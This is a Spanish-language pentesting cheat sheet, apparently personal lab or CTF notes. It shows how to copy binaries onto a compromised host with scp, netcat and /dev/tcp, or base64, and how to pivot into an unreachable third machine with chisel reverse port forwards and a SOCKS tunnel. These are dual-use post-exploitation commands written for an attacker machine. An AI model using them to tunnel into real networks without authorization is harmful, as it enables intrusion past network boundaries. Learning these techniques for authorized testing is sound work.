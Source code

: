 Si tenemos *ssh* configurado con un *authorized_keys* en la máquina: 
```bash
scp {binary} {user}@{ip}:/{path}
```

Con **netcat**: 
```bash
# Máquina 1: 
nc -nvlp {port} < {binary}
# Máquina 2: 
cat < /dev/tcp/{ip}/{port} > {name_binary}
```

Con **base64**:
```bash
# Máquina 1:
base64 -w 0 {file} | xclip -sel clip
# Máquina 2: 
echo '{base64_string}' | base64 -d > {binary_name}
```

Una vez que tengamos **chisel** en la *Máquina 2* que tiene conexión con la *Máquina 3* con la cual nuestra *Máquina 1* no tiene conexión, en nuestra máquina de atacante (La *Máquina 1*) deberíamos crear el *server* de chisel: 

```bash
./chisel server --reverse -p 1234
```

Mientras que si quisieramos compartir un puerto especifico de la Máquina 3 desde la Máquina 2 para poder acceder desde la Máquina 1, podríamos ejecutar:
```bash
# Desde nuestra Máquina 2 conectarnos a nuestro server de chisel haciend port forwarding de un puerto de la máquina 3 a nuestra máquina por el puerto 8899
./chisel client {IP_atacante}:1234 R:8899:{Máquina3_IP}:{Máquina3_port}
```

Al ejecutar el comando de arriba,  si bien no tenemos conexión con la Máquina 3, la Máquina 2 se esta conectando a nuestro servidor de chisel brindando la disponibilidad de un puerto seleccionado de la Máquina 3 y permitiendonos acceder a este en un puerto seleccionado (Ej: 8899)

Pero también podemos permitir acceso a todos los puertos para no tener que jugar puerto por puerto, de manera que si lo que nos interesa es tener completa conexión con la Máquina 3 desde la Máquina 1, en la Máquina 2 podríamos ejecutar el siguiente comando: 
```bash
./chisel client {IP_atacante}:1234 R:8899:socks
```

De esta manera, por el puerto indicado (8899, si no especificamos 'R:socks' se habré por defecto el 1080) tendríamos conexión desde la Máquina 1 a la Máquina 3 pasando por este tunel. 

#### Recordemos que así como podemos establecer un tunel a la vez podemos traernos un puerto especifico así como un protocolo distinto: 
```bash
./chisel client {IP_atacante}:1234 R:socks R:443:{Máquina3_IP}:443/udp
```
